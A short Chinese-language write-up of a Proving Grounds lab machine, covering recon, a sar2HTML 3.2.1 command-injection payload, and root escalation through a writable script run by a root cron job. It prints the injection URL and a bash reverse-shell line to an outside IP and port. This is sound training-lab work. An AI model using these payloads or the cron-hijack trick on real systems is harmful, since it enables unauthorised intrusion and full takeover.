

本系列為 Proving Grounds Play Free 靶機

Port Scan 後發現 含有80 Port

進入系統後發現 含有一個預設頁面

查看 robots.txt 發現有個 `sar2HTML`

## 讀取 sar2HTML頁面

左上角有 sar2HTML 版本字樣 丟google 就有Exploit 可參考

sar2HTML V3.2.1  含有 Command Injection 漏洞

payload為 `index.php?plot=;id`

發現可 Command Injection 直接 revshell

接著 cat local.txt

## 提權

提權部分卡了許久

查看 uname -a 無發現可利用 Exploit

使用 `find / -perm -4000`

`find / -perm -04000 -type f -ls`

發現 /bin/ping 有超級使用者

但無 gcc 功能

最後去看 Write up  發現使用 `Linpeas.sh` 去執行

會出現 `/var/www/finally.sh` 權限為root, 使用 crontab 每五分鐘執行一次

查看 `finally.sh` 發現內容為執行 `write.sh`

`write.sh` 擁有者為 www-data 可進行編輯

輸入反連指令 改寫並覆蓋內容

`echo '**bash** -i >& /dev/tcp/**192.168.45.206**/**5555** 0>&1' > write.sh`

開啟 nc 等待五分鐘後  取得 root 權限 讀取`proof.txt`

